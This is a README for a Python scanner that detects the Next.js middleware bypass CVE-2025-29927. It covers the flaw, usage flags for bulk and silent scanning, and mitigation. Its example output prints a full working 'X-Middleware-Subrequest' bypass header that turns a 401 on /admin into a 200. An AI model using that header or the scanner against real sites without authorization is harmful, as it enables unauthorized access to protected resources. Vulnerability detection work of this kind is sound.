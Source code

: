 # CVE-2025-29927

## Next.js Middleware Bypass Scanner (CVE-2025-29927)

CVE-2025-29927 is a specialized security tool for detecting the Next.js middleware bypass vulnerability (CVE-2025-29927) affecting Next.js versions 11.1.4 through 15.2.2. This critical vulnerability allows attackers to bypass security controls by sending a specially crafted HTTP header.

## About the Vulnerability

The Next.js middleware bypass vulnerability (CVE-2025-29927) allows attackers to circumvent authorization controls by sending a malicious `X-Middleware-Subrequest` header that confuses the middleware processing logic. This can lead to unauthorized access to protected resources and routes.

**CVSS Score:** 9.1 (Critical)

## Features

- Fast concurrent scanning of multiple targets
- SSL certificate verification bypass option for IP-based scanning
- Silent mode for automation and focused output
- Detailed vulnerability information (status codes, bypass headers)
- Endpoint discovery for comprehensive testing

## Installation

```bash
# Clone the repository
git clone https://github.com/gotr00t0day/CVE-2025-29927.git
cd CVE-2025-29927

# Install requirements
pip install -r requirements.txt
```

## Usage

```bash
python CVE-2025-29927.py [-h] [-t TARGET] [-f FILE] [-c CONCURRENCY] [-k] [-s]
```

### Command Line Arguments

- `-t, --target`: Single target to scan (e.g., example.com or https://example.com)
- `-f, --file`: File containing list of targets (one per line)
- `-c, --concurrency`: Number of concurrent scans (default: 5)
- `-k, --insecure`: Disable SSL certificate verification (useful for IP addresses)
- `-s, --silent`: Silent mode - only show vulnerable targets

### Examples

Scan a single target:
```bash
python CVE-2025-29927.py -t example.com
```

Scan multiple targets from a file:
```bash
python CVE-2025-29927.py -f targets.txt
```

Scan with SSL verification disabled:
```bash
python CVE-2025-29927.py -t 192.168.1.1 -k
```

Automated scanning with silent mode:
```bash
python CVE-2025-29927.py -f targets.txt -k -s
```

Scan with a custom Header:
```bash
python3 CVE-2025-29927.py -t target -k -s -H "middleware"
```

## Output

For vulnerable targets, MiddleWay displays:
- The vulnerable endpoint
- Original status code
- Bypassed status code
- The bypass header used for successful exploitation

Example output:
```
[VULNERABLE] https://example.com - Endpoint /admin can be bypassed
  Original status: 401
  Bypassed status: 200
  Bypass header: X-Middleware-Subrequest: src/middleware:nowaf:src/middleware:src/middleware:src/middleware:src/middleware:middleware:middleware:nowaf:middleware:middleware:middleware:pages/_middleware
```

## Mitigation

To mitigate this vulnerability:
1. Upgrade to Next.js 14.2.25, 15.2.3 or later
2. If upgrading is not possible, block the `X-Middleware-Subrequest` header at your WAF or server level

## Disclaimer

This tool is provided for security research and defensive purposes only. Always obtain proper authorization before scanning any systems you don't own. The authors are not responsible for any misuse of this tool.

## License

MIT 
